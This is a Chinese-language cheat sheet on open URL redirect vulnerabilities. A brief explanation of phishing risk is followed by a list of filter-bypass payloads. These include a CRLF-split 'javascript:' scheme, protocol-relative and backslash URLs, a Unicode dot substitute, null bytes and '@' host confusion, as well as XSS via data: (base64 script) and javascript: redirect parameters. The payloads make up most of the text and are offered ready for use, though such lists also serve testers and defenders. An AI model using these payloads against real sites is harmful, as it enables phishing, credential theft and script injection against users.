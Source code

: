 # 开放URL重定向
	
当web应用程序接受可能导致web应用程序将请求重定向到不可信输入的URL时,多组重定向和转发是可能的。通过将不受信任的URL输入修改为恶意站点,攻击者可能成功启动网络钓鱼欺诈和窃取用户凭据。由于修改链接中的服务器名称与原始站点相同,网络钓鱼尝试可能具有更值得信任的外观。多组重定向和向前攻击还可以用于恶意创建一个URL,该URL将通过应用程序的访问控制检查然后交给攻击者通常无法访问的特权函数。
## 攻击
 
使用crlf绕过“JavaScript”黑名单关键字
```
java%0d%0ascript%0d%0a:alert(0)
```

使用“//”绕过“http”黑名单关键字
```
//google.com
```

使用“https :”绕过“/ / //”黑名单关键字
```
https:google.com
```

使用“\ /”绕过“/ /”黑名单关键字(浏览器,请参见\ / / )
```
\/\/google.com/
/\/google.com/ 
```


使用“% E3 % 80% 80%82”进行绕过。"黑名单中的字符
```
//google%E3%80%82com
```


使用空字节“%00”绕过黑名单筛选器
```
//google%00.com
```

使用“@”字符,浏览器将重定向至“@”后面的内容
```
http://www.theirsite.com@yoursite.com/
```

创建文件夹作为其域
```
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```


从今以后从打开的URL-如果它在一个js变量中
```
";alert(0);//
```

来自数据的XSS : //包装
```
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
```

来自JavaScript : / /包装的XSS
```
http://www.example.com/redirect.php?url=javascript:prompt(1)
```


## 致谢
* filedescriptor
* https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet


